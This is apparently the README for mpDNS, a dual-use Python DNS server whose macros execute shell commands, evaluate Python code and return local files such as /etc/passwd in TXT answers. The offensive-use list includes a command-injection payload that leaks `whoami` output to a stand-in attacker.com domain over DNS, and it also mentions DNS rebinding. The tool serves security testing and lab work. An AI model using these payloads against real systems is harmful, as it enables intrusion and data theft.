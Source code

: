 mpDNS aka multi-purpose DNS Server
--------------------
Simple, configurable "**clone & run**" DNS Server with multiple useful features
- Should work on Python 2 and 3
- names.db -> holds all custom records (see examples)
- Simple wildcards like *.example.com
- Catch unicode dns requests
- Custom actions aka macro:
  - `{{shellexec::dig google.com +short}}` _-> Execute shell command and respond with result_
  - `{{eval::res = '1.1.1.%d' % random.randint(0,256)}}` _-> Evaluate your python code_
  - `{{file::/etc/passwd}}` _-> Respond with localfile contents_
  - `{{resolve}}` _-> Forward DNS request to local system DNS_
  - `{{resolve::example.com}}` _-> Resolve example.com instead of original record_
- Supported query types: `A`, `CNAME`, `TXT`
- Update `names.db` records without restart/reload with `./mpdns.py -e`

Heavily based on <https://github.com/circuits/circuits/blob/master/examples/dnsserver.py>

Usage: `./mpdns.py`
 - Edit **names.db** with `./mpdns.py -e` no restart required

Offensive and Defensive purposes:
-----------
1. You need a light-weight simple dns-server solution for testing purposes (NOT PRODUCTION!)
2. Test for various blind injection vulnerabilities in web applications _(ex. `/ping.php?ip=$(dig $(whoami).attacker.com)`)_
3. Easily infiltrate 65K of data in one `TXT` query
4. DNS Rebinding
5. Execute custom macro action on specific query (useful in malware-analysis lab environments)
6. And lots more. It is highly customizable.

Installing
--------------------
`git clone https://github.com/nopernik/mpdns`

Limitations
------------------
1. Due to UDP Datagram limit of 65535 bytes, DNS response is limited to approx ~65200 bytes\
this limitation applies to `TXT` records which are splitted into chunks of 256 bytes until response reaches maximum allowed 65200b\
therefore `TXT` record with macro `{{file:localfile.txt}}` is limited to 65200 bytes.
2. No support for nested wildcards **`test.*.example.com`**
3. No support for custom DNS server resolver in `{{resolve::example.com}}` macro
4. `TTL` always set to **0**

Examples
-----------
**names.db example:**
```
# Empty configuration will result in empty but valid responses
#
# Unicode domain names are not supported but still can be catched by the server.
# for example мама-сервер-unicode.google.com will be catched but with SERVFAIL response

passwd.example.com	TXT     {{file::/etc/passwd}}  #comments are ignored
shellexec			TXT     {{shellexec::whoami}}
eval				TXT     {{eval::import random; res = random.randint(1,500)}}
resolve1			A       {{resolve}}
resolve2			A       {{resolve::self}}      #same as previous
resolve3			A       {{resolve::example.com}}
blabla.com			A       5.5.5.5

*					A       127.0.0.1
*.example.com		A		7.7.7.7
c1.example.com		CNAME	c2.example.com
c2.example.com		CNAME	c3.example.com
c3.example.com		CNAME	google.example.com
google.example.com	CNAME	google.com
test.example.com	A		8.8.8.8
google.com			A		{{resolve::self}}
notgoogle.com		A		{{resolve::google.com}}
```

Example output with names.db example:
---------


**Regular resolution from DB**: `dig test.example.com @localhost`
```
;; ANSWER SECTION:
test.example.com.	0	IN	A	8.8.8.8
```
_mpDNS output:_ `- Request from 127.0.0.1:57698      -> test.example.com.	-> 8.8.8.8 (A)`

-----
**Recursive CNAME resolution**: `dig c1.example.com @localhost`

```
;; QUESTION SECTION:
;c1.example.com.			IN	A

;; ANSWER SECTION:
c1.example.com.		0	IN	CNAME	c2.example.com.
c2.example.com.		0	IN	CNAME	c3.example.com.
c3.example.com.		0	IN	CNAME	google.example.com.
google.example.com.	0	IN	CNAME	google.com.
google.com.		0	IN	A	216.58.206.14
```
_mpDNS output:_ 
```
- Request from 127.0.0.1:44120      -> c1.example.com.		-> c2.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c2.example.com		-> c3.example.com (CNAME)
- Request from 127.0.0.1:44120      -> c3.example.com		-> google.example.com (CNAME)
- Request from 127.0.0.1:44120      -> google.example.com	-> google.com (CNAME)
- Request from 127.0.0.1:44120      -> google.com			-> {{resolve::self}} (A)
```

-----

**Wildcard resolution**: `dig not-in-db.com @localhost`

```
;; ANSWER SECTION:
not-in-db.com.		0	IN	A	127.0.0.1
```
_mpDNS output:_ `- Request from 127.0.0.1:38528      -> not-in-db.com.	-> 127.0.0.1 (A)`

-----
**Wildcard subdomain resolution**: `dig wildcard.example.com @localhost`

```
;; ANSWER SECTION:
wildcard.example.com.	0	IN	A	7.7.7.7
```
_mpDNS output:_ `- Request from 127.0.0.1:39691      -> wildcard.example.com.	-> 7.7.7.7 (A)`

-----
**Forward request macro**: `dig google.com @localhost`
```
;; ANSWER SECTION:
google.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:53487      -> google.com.	-> {{resolve::self}} (A)`

-----
**Forward request of custom domain macro**: `dig notgoogle.com @localhost`
```
;; ANSWER SECTION:
notgoogle.com.		0	IN	A	172.217.22.110
```
_mpDNS output:_ `- Request from 127.0.0.1:47797      -> notgoogle.com.	-> {{resolve::google.com}} (A)`

-----
**File contents macro via TXT query**: `dig txt passwd.example.com @localhost`
```
;; ANSWER SECTION:
passwd.example.com.	0	IN	TXT	"root:x:0:0:root:/root:/bin/bash\010daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\010bin:x:2:2:bin:......stripped"
```
_mpDNS output:_ `- Request from 127.0.0.1:38805      -> passwd.example.com.	-> ['root:x:0:0:root...(2808)'] (TXT)`

-----
**Custom python code macro via TXT query**: `dig txt eval @localhost`
```
;; ANSWER SECTION:
eval.			0	IN	TXT	"320"
```
_mpDNS output:_ `- Request from 127.0.0.1:33821      -> eval.	-> ['320'] (TXT)`

-----
**Shell command macro via TXT query**: `dig txt shellexec @localhost`
```
;; ANSWER SECTION:
shellexec.		0	IN	TXT	"root"
```
_mpDNS output:_ `- Request from 127.0.0.1:50262      -> shellexec.	-> ['root'] (TXT)`

-----

Have fun!
